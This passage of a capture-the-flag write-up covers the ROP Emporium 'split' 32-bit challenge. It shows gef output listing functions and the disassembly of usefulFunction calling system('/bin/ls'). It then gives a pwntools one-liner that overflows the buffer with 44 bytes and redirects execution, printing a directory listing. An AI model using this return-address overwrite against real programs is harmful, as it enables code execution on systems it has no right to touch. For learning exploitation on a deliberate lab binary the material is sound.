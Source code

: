 ```cpp
0x08048480  __x86.get_pc_thunk.bx
0x08048490  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048546  main
0x080485ad  pwnme
0x0804860c  usefulFunction
0x08048630  __libc_csu_init
0x08048690  __libc_csu_fini
0x08048694  _fini
gef➤

```

At a first glance, the `usefulFunction` seems particularly interesting.
Upon disassembling usefulFunction, we notice that there's a call to `system` with a string argument at `0x804870e`.

```cpp
gef➤  disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0804860c <+0>:	push   ebp
   0x0804860d <+1>:	mov    ebp,esp
   0x0804860f <+3>:	sub    esp,0x8
   0x08048612 <+6>:	sub    esp,0xc
   0x08048615 <+9>:	push   0x804870e
   0x0804861a <+14>:	call   0x80483e0 <system@plt>
   0x0804861f <+19>:	add    esp,0x10
   0x08048622 <+22>:	nop
   0x08048623 <+23>:	leave
   0x08048624 <+24>:	ret
End of assembler dump.
gef➤  x/s 0x804870e
0x804870e:	"/bin/ls"
gef➤

```
We can inspect the value at `0x804870e`. It looks like the value is `/bin/ls`.

This basically means that `system` is being called to run `/bin/ls`.
So if we can overflow the stack and change the value in `eip` to `0x0804861a`, we should see a directory listing. Let's do that.

```bash
root@localhost:~/rop/split# python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*44+p32(0x0804860c))' | ./split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
exploit2.py  exploit.py  flag.txt  payload  README.md  split32	split32.zip
Segmentation fault (core dumped)

```

